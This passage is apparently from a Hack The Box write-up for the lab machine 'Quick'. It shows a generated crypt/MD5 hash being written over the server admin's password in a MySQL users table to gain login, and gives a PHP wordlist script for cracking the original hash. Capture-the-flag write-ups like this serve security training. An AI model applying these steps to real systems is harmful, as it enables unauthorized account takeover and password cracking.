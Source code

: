Let's save the hash for later in case we can crack it and there's some password reuse, but let's just add our own password. We should be able to generate our own with

```
╭─zoey@nomadic ~/htb ‹master*›
╰─$ php -r "echo md5(crypt('password','fa'));"                                                                                               130 ↵
0c0ba48811bed85e3093bc71c6037891
```

Then let's insert it into the database

```sql
mysql> Update users set password='0c0ba48811bed85e3093bc71c6037891' where email='srvadm@quick.htb';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | 0c0ba48811bed85e3093bc71c6037891 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Now we can login with `srvadm@quick.htb:password`.

### Cracking The Hash

Alternatively, we can also crack the hash with the following script:

```php
<?php

$hash = 'e626d51f8fbfd1124fdea88396c35d05';

$tries = 0;
$fn = fopen($argv[1], "r");
$foundit = false;
while (!feof($fn) && !$foundit) {
    $result = trim(fgets($fn));
    $testKey = md5(crypt($result,'fa'));
    if ($testKey == $hash) {
        echo $result;
        $foundit = true;
    }
    $tries = $tries + 1;
    if ($tries % 100000 == 0) {
        echo "Tries " . $tries . ", " . $result . "\n";
    }
}

fclose($fn);
```
